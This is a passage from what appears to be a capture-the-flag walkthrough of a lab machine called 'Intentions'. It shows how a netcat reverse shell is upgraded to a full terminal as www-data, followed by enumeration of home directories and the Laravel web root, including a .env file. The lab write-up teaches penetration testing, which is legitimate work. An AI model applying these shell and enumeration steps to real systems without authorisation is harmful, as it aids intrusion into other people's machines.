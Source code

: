 I’ll [upgrade the shell](https://www.youtube.com/watch?v=DqE6DxqJg8Q):

```

www-data@intentions:~/html/intentions/storage/app/public$ script /dev/null -c bash
<ntions/storage/app/public$ script /dev/null -c bash      
Script started, output log file is '/dev/null'.
www-data@intentions:~/html/intentions/storage/app/public$ ^Z
[1]+  Stopped                 nc -lnvp 443
oxdf@hacky$ stty raw -echo; fg
nc -lnvp 443
            reset
reset: unknown terminal type unknown
Terminal type? screen
echwww-data@intentions:~/html/intentions/storage/app/public$

```

## Shell as greg

### Enumeration

#### Home / Web Directories

There are three users with home directories in `/home`:

```

www-data@intentions:/home$ ls
greg  legal  steven

```

www-data doesn’t have privilege to access any of them.

www-data’s home directory is `/var/www`, and the only thing in it is the website, in `/var/www/html/intentions`:

```

www-data@intentions:~/html/intentions$ ls -la
total 820
drwxr-xr-x  14 root     root       4096 Feb  2  2023 .
drwxr-xr-x   3 root     root       4096 Feb  2  2023 ..
-rw-r--r--   1 root     root       1068 Feb  2  2023 .env
drwxr-xr-x   8 root     root       4096 Feb  3  2023 .git
-rw-r--r--   1 root     root       3958 Apr 12  2022 README.md
drwxr-xr-x   7 root     root       4096 Apr 12  2022 app
-rwxr-xr-x   1 root     root       1686 Apr 12  2022 artisan
drwxr-xr-x   3 root     root       4096 Apr 12  2022 bootstrap
-rw-r--r--   1 root     root       1815 Jan 29  2023 composer.json
-rw-r--r--   1 root     root     300400 Jan 29  2023 composer.lock
drwxr-xr-x   2 root     root       4096 Jan 29  2023 config
drwxr-xr-x   5 root     root       4096 Apr 12  2022 database
-rw-r--r--   1 root     root       1629 Jan 29  2023 docker-compose.yml
drwxr-xr-x 534 root     root      20480 Jan 30  2023 node_modules
-rw-r--r--   1 root     root     420902 Jan 30  2023 package-lock.json
-rw-r--r--   1 root     root        891 Jan 30  2023 package.json
-rw-r--r--   1 root     root       1139 Jan 29  2023 phpunit.xml
drwxr-xr-x   5 www-data www-data   4096 Feb  3  2023 public
drwxr-xr-x   7 root     root       4096 Jan 29  2023 resources
drwxr-xr-x   2 root     root       4096 Jun 19 11:22 routes
-rw-r--r--   1 root     root        569 Apr 12  2022 server.php
drwxr-xr-x   5 www-data www-data   4096 Apr 12  2022 storage
drwxr-xr-x   4 root     root       4096 Apr 12  2022 tests
drwxr-xr-x  45 root     root       4096 Jan 29  2023 vendor
```